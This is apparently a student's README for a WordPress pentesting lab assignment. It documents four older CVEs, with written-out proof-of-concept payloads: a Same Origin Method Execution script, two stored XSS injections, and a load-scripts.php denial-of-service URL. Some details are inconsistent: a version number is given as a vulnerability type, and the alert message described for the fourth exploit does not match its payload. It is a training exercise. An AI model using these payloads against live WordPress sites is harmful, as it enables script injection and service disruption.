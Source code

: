 # CodePathweek7
# Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

Exploit 1. CVE-2016-4566 Upload Same Origin Method Execution (SOME)
  - [ ] Summary: 
    - Vulnerability types: Same Origin Method Execution (SOME)
    - Tested in version: 4.2
    - Fixed in version: 4.2.8
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit1.gif
  - [ ] Steps to recreate: 
  
        1. Reply to an existing comment
        
        2. Using Javascript use the following code:
            <button onclick="fire()">Click</button>
            <script>
            function fire() {
             open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload /plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
              setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
            }
            </script>
            
        3. The following script will use an exploit that will create a malicious button that when clicked will take the user to a fake    website example.com
        
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/37382/)
    
Exploit 2. CVE-2015-3440 Unauthenticated Stored Cross Site-Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross Site-Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit2.gif
  - [ ] Steps to recreate: 
  
        1. Create a new post
        
        2. In the post body, write this code:
            a) It must contain an XSS injection content, followed by at least 64 kilobytes of text
                Example: 
                    <a title='x onmouseover=alert(unescape(/hello%20world/.source))
                    style=position:absolute;left:0;top:0;width:5000px;height:5000px
                    AAAAAAAA.. (for 64 kb)....AAAAAA
                    
        3. Save and reload the site
        
        4. WordPress will truncate the comment allowing the injected content to be posted on the site
            a) A pop up message of "Hello World" will pop up on mouse move
            
  - [ ] Affected source code:
    - [Link 2](https://core.trac.wordpress.org/changeset/32299)
    - [Link 2.1](https://www.exploit-db.com/exploits/36844/)
    - [Link 2.2](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440)
    
Exploit 3. CVE-2018-6389 Application Denial of Service (DoS)
  - [ ] Summary: 
    - Vulnerability types: 4.2
    - Tested in version: 4.9.4
    - Fixed in version: unpacthed
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit3.gif
  - [ ] Steps to recreate:
  
          1. When the site is loading, you need to paste the following at the end of the URL
              /wp-admin/load-scripts.php?c=1&load=editor,common,user-profile,media-widgets,media-gallery
              
          2. With the script now in the URL, reload the webpage and it tries to find the JavaScript file name (ediotr,common, etc.)
          
          3. The webpage will then find all the information and return it to the users webpage in a single file
        
  - [ ] Affected source code:
    - [Link 3](https://wpvulndb.com/vulnerabilities/9021)
    
Expoint 4: CVE-2017-6817 Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types:  Cross-Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit4.gif
  - [ ] Steps to recreate: 
  
        1. Create a new post
        
        2. In the post body, write this code:
            [embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]
            
        3. Save your changes, when you go to the post on the site you will see an embeded link
        
        4. Click the embeded link and a alert window will pop up with the message “No Body Is Safe!”
        
  - [ ] Affected source code:
    - [Link 4](https://wpvulndb.com/vulnerabilities/8768) 
    
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018 Oleksandr Bihary

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
